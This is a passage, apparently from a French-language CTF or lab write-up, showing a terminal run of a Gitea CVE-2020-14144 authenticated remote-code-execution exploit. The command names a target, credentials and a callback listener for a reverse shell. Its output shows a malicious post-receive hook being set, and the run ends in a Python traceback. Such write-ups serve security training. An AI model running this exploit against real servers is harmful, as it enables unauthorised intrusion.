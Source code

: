 J'ai remarqué cela avec Wireshark mais qu'importe une fois que l'on connait le truc :  

```plain
$ python gitea.py -v -t http://192.168.56.20:8585 -u frank -p password -I 192.168.56.1 -P 9999  
    _____ _ _______ 
   / ____(_)__   __|             CVE-2020-14144 
  | |  __ _   | | ___  __ _ 
  | | |_ | |  | |/ _ \/ _` |     Authenticated Remote Code Execution 
  | |__| | |  | |  __/ (_| | 
   \_____|_|  |_|\___|\__,_|     GiTea versions >= 1.1.0 to <= 1.12.5 

[+] Starting exploit ... 
   [>] login('frank', ...) 
   [>] Deleting repository : vuln 
   [>] Creating repository : vuln 
   [>] repo_set_githook_post_receive('vuln') 
   [>] logout() 
astuce: Utilisation de 'master' comme nom de la branche initiale. Le nom de la branche 
astuce: par défaut peut changer. Pour configurer le nom de la branche initiale 
astuce: pour tous les nouveaux dépôts, et supprimer cet avertissement, lancez : 
astuce:  
astuce:         git config --global init.defaultBranch <nom> 
astuce:  
astuce: Les noms les plus utilisés à la place de 'master' sont 'main', 'trunk' et 
astuce: 'development'. La branche nouvellement créée peut être rénommée avec : 
astuce:  
astuce:         git branch -m <nom> 
Dépôt Git vide initialisé dans /tmp/tmp.CxYwtR6dPD/.git/ 
[master (commit racine) aee96fb] Initial commit 
 1 file changed, 1 insertion(+) 
 create mode 100644 README.md 
Traceback (most recent call last): 
  File "gitea.py", line 241, in <module> 
    trigger_exploit(g.host, g.username, g.password, reponame, verbose=args.verbose) 
  File "gitea.py", line 180, in trigger_exploit 
    conn.expect("Username for .*: ") 
  File "/home/sirius/.local/share/virtualenvs/code-4-BMv2Qy/lib/python3.8/site-packages/pexpect/spawnbase.py", line 343, in expect 
    return self.expect_list(compiled_pattern_list, 
  File "/home/sirius/.local/share/virtualenvs/code-4-BMv2Qy/lib/python3.8/site-packages/pexpect/spawnbase.py", line 372, in expect_list 
    return exp.expect_loop(timeout) 
  File "/home/sirius/.local/share/virtualenvs/code-4-BMv2Qy/lib/python3.8/site-packages/pexpect/expect.py", line 179, in expect_loop 
    return self.eof(e) 
  File "/home/sirius/.local/share/virtualenvs/code-4-BMv2Qy/lib/python3.8/site-packages/pexpect/expect.py", line 122, in eof 
    raise exc 
pexpect.exceptions.EOF: End Of File (EOF). Exception style platform. 
<pexpect.pty_spawn.spawn object at 0x7f61d629dbe0> 
command: /bin/bash 
args: ['/bin/bash', '-c', 'cd /tmp/tmp.CxYwtR6dPD && git push -u origin master'] 
buffer (last 100 chars): b'' 
before (last 100 chars): b"er\r\nLa branche 'master' est param\xc3\xa9tr\xc3\xa9e pour suivre la branche distante 'master' depuis 'origin'.\r\n" 
after: <class 'pexpect.exceptions.EOF'> 
match: None 
match_index: None 
exitstatus: None 
flag_eof: True 
pid: 21806 
child_fd: 6 
closed: False 
timeout: 30 
```